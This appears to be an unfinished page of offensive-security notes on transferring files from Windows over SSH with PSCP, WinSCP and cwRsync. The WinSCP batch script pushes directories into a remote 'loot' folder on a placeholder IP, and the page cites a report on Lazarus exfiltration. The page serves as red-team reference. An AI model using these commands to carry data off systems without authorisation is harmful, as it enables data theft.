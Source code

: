 # SSH

## 01 - PSCP

```
C:\> pscp.exe -4 [-P <PORT>] -pw <password> <source> <username>@<IP>:<destination>
```

## 02 - WinSCP

TODO: Fill this info

```
C:\> type commands.txt
option batch continue
option confirm off
open sftp://<username>:<password>@<IP> -hostkey=<fingerprint> -rawsettings Compression=1
lcd "//<IP>/<share_name>/path/to/directory/"
cd "/mnt/<loot | downloads>"
put "<directory>"
# synchronize remote -criteria=size
exit

C:\> winscp.exe /script=commands.txt
```
## 03 - CwRsync

### 2.1 - Setup

```
C:\> curl -o cwrsync.zip https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip
```

```powershell
PS C:\> Invoke-Webrequest [-UseBasicParsing] -Uri https://itefix.net/dl/free-software/cwrsync_6.2.8_x64_free.zip -OutFile cwrsync.zip
Expand-Archive cwrsync.zip
Remove-Item cwrsync.zip
cd cwrsync/bin/
```

### 2.2 - Usage

```
PS C:\cwrsync/bin> .\rsync.exe
```

---
## References

- [Kaspersky: Lazarus Targets Defense Industry with Threatneedle](https://ics-cert.kaspersky.com/publications/reports/2021/02/25/lazarus-targets-defense-industry-with-threatneedle/)

- [WinSCP Command Line](https://winscp.net/eng/docs/commandline)

- [CwRsync](https://www.itefix.net/cwrsync)